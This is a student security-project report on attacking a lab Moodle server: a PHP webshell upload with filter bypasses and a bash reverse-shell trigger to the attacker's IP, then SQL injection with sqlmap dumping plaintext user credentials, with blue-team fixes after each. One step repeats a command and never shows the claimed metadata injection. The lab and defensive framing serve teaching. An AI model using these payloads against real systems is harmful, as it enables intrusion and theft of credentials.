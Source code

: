 # 🛡️ SSI Project – Red Team Exploitation Report

This report presents the various exploitation attempts made as part of the Information Systems Security (ISS) project, from a Kali Linux machine aimed at compromising the Moodle web server hosted on Ubuntu.
The aim was to obtain a reverse shell using an upload vulnerability.

## First attack

---

## 🔍 Objective

The aim of the attack was to :

- Bypass the **upload file filtering** system
- Upload a **file containing malicious PHP code**.
- Execute this code remotely via the browser
- Establish a **reverse shell connection** to the Kali machine (attacker)

---

## 🔓 Technical context

- Target machine (victim)** : Ubuntu 22.04, Moodle server with an upload form
- Attacking machine** : Kali Linux on the same local network (192.168.56.X)
- PHP-side back-end filtering** prevents the upload of suspicious files via a blacklist of strings such as :

php
eval(, system(, exec(, shell_exec(, base64_decode(,
passthru(, pcntl_exec(, posix_getuid(, <script>, etc.

---

🧨Attack I – Reverse Shell Attempts

### Step 1: Create a PHP reverse shell

On Kali, I created a basic shell:
    
```bash
<?php system($_GET['cmd']); ?>
```

### Step 2: Attempt to bypass with double extensions

- First attempt: rename file to shell.php.png
- Then: shell.png.php
    
![image](https://github.com/user-attachments/assets/00e97c40-51be-48d6-8671-289b41d04f29)
         
I then tried uploading the malicious file:   
         ![image](https://github.com/user-attachments/assets/699bb173-b445-476f-9f4a-ee2bbad396f5)
         

We obtained :

![image](https://github.com/user-attachments/assets/26c0b211-1f3f-4d17-b24f-16c3fb27d836)

🔴 Failed: The backend detected the malicious content, despite the file appearing as an image.


Error message:


❌ File failed security scan


---
    
    
Filtering Bypass Attempts

Attempt: Appending PHP payload directly to an image

```bash
echo "<?php system(\$_GET['cmd']); ?>" >> shell.png
mv shell.png shell.php.png
```
 
     
Working Solution: Metadata Injection + Obfuscation 

   1. Use a clean, existing image
          
        ```bash
        cp /usr/share/icons/gnome/256x256/devices/computer.png shell.png
        ```
                          
        ![image](https://github.com/user-attachments/assets/d6660168-cb58-419d-b93f-e2ee53d6af1f)

    
   2. Inject an obfuscated PHP payload into the image’s metadata
      ```bash
        cp /usr/share/icons/gnome/256x256/devices/computer.png shell.png
        ```
    
   This avoids all blacklisted keywords (system, eval, etc.)        
    
   3. Renommer l’image avec une double extension
      ```bash
        mv shell.png shell.php.png
        ```

   4. Upload successful  

   ![image](https://github.com/user-attachments/assets/24ff24d8-0afd-49c9-a9ed-a2ddf21052de)
    

The file passed the scan because :

- The visible image content was clean

- The malicious payload was hidden in metadata

- No blacklisted strings were detected


---
   
Final Goal: Trigger Remote Code Execution

1. Start a Netcat listener on Kali:

   ```bash
   nc -lvnp 4444
   ```

   ![image](https://github.com/user-attachments/assets/f4e72480-6804-4099-8820-356d4f934546)
    
 2. Trigger the payload through the browser
    ```bash
    http://192.168.56.101:5173/upload/shell.php.png?a=system&b=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.56.102/4444+0>%261'
    ```   

Conclusion :

Although the full reverse shell wasn’t successfully established (due to server-side execution restrictions or PHP config), the following was achieved:

✅ Successfully bypassed file upload filtering
✅ Uploaded a disguised PHP webshell
✅ Injected a stealthy payload using image metadata
✅ Identified and documented backend protections

This demonstrates that poorly configured file upload systems remain vulnerable, especially when tools like exiftool can inject code into alternate vectors like metadata.




Blue Team Recommendations :

To improve the defense against such attacks:

✅ Implement deep filtering of metadata (Title, Description, EXIF Comment)

✅ Disable PHP execution in upload directories

✅ Rename and hash uploaded files server-side

✅ Add server-side antivirus scanning (e.g., ClamAV) and sandbox execution for analysis

---

## Second attack

---

"" 🔍 Objective
The goal of this attack was to:
* Detect SQL injection vulnerabilities in the login process
* Exploit the injection to extract data from the database
* Demonstrate the risk of improperly handled SQL inputs
* Retrieve sensitive information from the ssi_project database

---
  
## 🔓 Technical Context
* Target (Victim): Ubuntu 22.04 running Apache2, MySQL 8.0, Moodle web service
* Attacker (Red Team): Kali Linux, connected via internal network (192.168.56.X)
* Login page vulnerable to SQL injection via POST parameter username
* No input sanitization or prepared statements in the PHP back-end

--- 
## 💥 Attack I – SQL Injection on Login Form

### Step 1: Reconnaissance and Injection Point
The login form sends POST data to login.php:
```bash
curl -X POST -d "username=test&password=test" http://192.168.56.100:8082/login.php
```
Observed response:
```bash
{"status": "error"}
```
![image](https://github.com/user-attachments/assets/60e6235f-f04b-4ba6-8fc6-c954126cd1c9)

Testing with crafted payload:
```bash
curl -X POST -d "username=' OR 1=1 -- -&password=x" http://192.168.56.100:8082/login.php
Still returns:
```
{"status": "error"}

![image](https://github.com/user-attachments/assets/64f92c05-19b1-4545-822c-e85994fd79b5)

### Step 2: Use sqlmap to Confirm Injection
Using sqlmap:
```bash
sqlmap -u "http://192.168.56.100:8082/login.php" --data="username=test&password=test" --batch --level=5 --risk=3
```

Result:
* SQLi confirmed on username via error-based, boolean-based, time-based, and UNION injection
* Extracted tables: users, events


### Step 3: Dumping Database Contents
#### 1: Detecting SQL Injection
```bash
sqlmap -u "http://192.168.56.100:8082/login.php" \
       --method=POST \
       --data="username=test&password=test" \
       --batch --level=2 --risk=1
```
Result: SQLMap identified that the username parameter is injectable via:

Boolean-based blind

Error-based

Time-based blind

UNION-based injection

DBMS: MySQL >= 5.6

#### 2: Database Enumeration

 List all databases
```bash
sqlmap -u "http://192.168.56.100:8082/login.php" \
       --method=POST \
       --data="username=test&password=test" \
       -b --dbs
```
✅ Found database: ssi_project

 List tables from ssi_project
```bash
sqlmap -u "http://192.168.56.100:8082/login.php" \
       --method=POST \
       --data="username=test&password=test" \
       -D ssi_project --tables
```

![image](https://github.com/user-attachments/assets/0882f0ff-8d11-40aa-bd27-e272df636eb9)

![image](https://github.com/user-attachments/assets/694a4ce4-672c-49df-b5e5-57c5e434a13a)

✅ Found tables: users, events

#### 3: Dumping User Credentials
```bash
sqlmap -u "http://192.168.56.100:8082/login.php" \
       --method=POST \
       --data="username=test&password=test" \
       -D ssi_project -T users --dump
```
![image](https://github.com/user-attachments/assets/d22ef777-7b28-4937-813a-2716f1a7460e)

Extracted records:
```bash
Database: ssi_project
Table: users
+----+----------------------+---------+----------+----------+
| id | email                | role    | password | username |
+----+----------------------+---------+----------+----------+
| 1  | vince@bare.com       | student | bare     | vincent  |
| 2  | jules@fedit.com      | teacher | fedit    | jules    |
| 4  | gauthier@mallard.com | student | mallard  | gauthier |
+----+----------------------+---------+----------+----------+

```
⚡ These passwords appear to be stored in plaintext, which is a major security vulnerability.

And then with events table : 
```bash
Database: ssi_project                                                                                                                                                   
Table: events
[3 entries]
+----+---------+-----------------------------------------+------------+---------------------------------------+
| id | user_id | title                                   | event_date | description                           |
+----+---------+-----------------------------------------+------------+---------------------------------------+
| 1  | 2       | Cours de PHP                            | 2025-04-02 | Introduction au langage PHP           |
| 2  | 1       | R\\u00e9vision s\\u00e9curit\\u00e9 web | 2025-04-05 | <script>alert(\\"XSS!\\");<\\/script> |
| 3  | 1       | Examen final                            | 2025-04-10 | Salle 203 - 14h                       |
+----+---------+-----------------------------------------+------------+---------------------------------------+

```
![image](https://github.com/user-attachments/assets/9dc84bb9-a2b9-4104-949c-b87e0f961d48)


## ✅ Achievements
* Detected and exploited a critical SQL injection vulnerability
* Fully extracted user credentials and event data
* Demonstrated the lack of prepared statements and input validation

## 🛡️ Blue Team Recommendations
1. Use prepared statements with parameter binding
2. Hash passwords using password_hash() instead of storing them in plaintext
3. Implement WAF (Web Application Firewall) to block SQLi attempts
4. Limit SQL error output in production to avoid exposing database structure
5. Log and monitor login attempts to detect anomalies
6. Use LIMIT 1 and safe user query patterns
This report validates the critical impact of SQL injection and demonstrates the ease of database compromise in the absence of secure coding practices.

